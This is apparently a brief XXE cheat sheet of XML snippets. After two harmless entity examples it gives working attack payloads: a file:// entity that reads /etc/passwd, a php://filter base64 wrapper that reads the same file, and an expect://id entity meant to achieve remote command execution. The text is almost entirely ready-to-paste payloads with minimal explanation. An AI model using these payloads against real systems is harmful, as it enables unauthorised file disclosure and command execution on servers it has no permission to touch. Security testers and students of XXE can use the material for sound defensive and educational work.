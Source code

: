 ## XXE:  
#Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#External entities:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#Simple XXE attack: reading files.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#Simple XXE attack: PHP Base64 conversion URI as an alternative. php://filter/convert.base64-encode/resource=/file/to/read
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#RCE thtough XXE:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
